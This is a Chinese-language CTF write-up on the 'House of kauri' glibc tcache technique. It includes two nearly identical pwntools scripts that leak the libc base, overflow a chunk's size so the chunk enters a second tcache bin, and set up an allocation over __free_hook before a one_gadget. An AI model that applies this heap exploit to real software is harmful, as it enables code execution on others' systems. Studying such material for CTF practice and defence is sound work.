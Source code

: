 # House of kauri-tcache

这个主要还是修改同一个堆块的size大小来是的这个堆块放到不同大小的tcache中是的我们可以修改和构造

当我们把tcachebin中的其中一个重新申请出来时就是伪造一个fd指针来指向free_hook

因此我们的第一步就是使用tcache对free一个堆块的检查不及时来获得同一个堆块放到不同大小的tcache中

```python
from orca.debug import eventDebugLevel
from pwn import *


elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


add_chunk(0, 0x410)
add_chunk(1, 0x10)
delete_chunk(0)
add_chunk(0, 0x410)
show_chunk(0)
p.recv()
libc.address = u64(p.recv(6)[-6:].ljust(8, b'\x00')) - 0x3b6be0
info("libc base: " + hex(libc.address))
add_chunk(10,0x18)

# gdb.attach
add_chunk(0,0x10)
add_chunk(1,0x28)

delete_chunk(1)
edit_chunk(0,b'a'*0x18+p64(0x20))#通过溢出使得chunk2中的大小修改为0x20再次free使得这个堆块进行不同的tcache中
delete_chunk(1)
```

![image-20250407192050358](./../images/image-20250407192050358.png)

从这里可以知道我们的堆块进入了我们伪造的一个tcache中

由于我们的chunk1可以重新申请回来因此我还可以重新对tcache进行一个修改

```python
from orca.debug import eventDebugLevel
from pwn import *


elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


add_chunk(0, 0x410)
add_chunk(1, 0x10)
delete_chunk(0)
add_chunk(0, 0x410)
show_chunk(0)
p.recv()
libc.address = u64(p.recv(6)[-6:].ljust(8, b'\x00')) - 0x3b6be0
info("libc base: " + hex(libc.address))
add_chunk(10,0x18)

# gdb.attach
add_chunk(0,0x10)
add_chunk(1,0x28)

delete_chunk(1)
edit_chunk(0,b'a'*0x18+p64(0x20))
delete_chunk(1)

#
# add_chunk(1,0x28)
# edit_chunk(1,p64(libc.sym['__free_hook']))
#
# add_chunk(0,0x18)
# add_chunk(0,0x18)

gdb.attach(p)
p.interactive()
```

从后面的代码可以知道通过两次add可以把free_hook给申请出来

![image-20250407192519303](./../images/image-20250407192519303.png)

同时使用一个one—gadget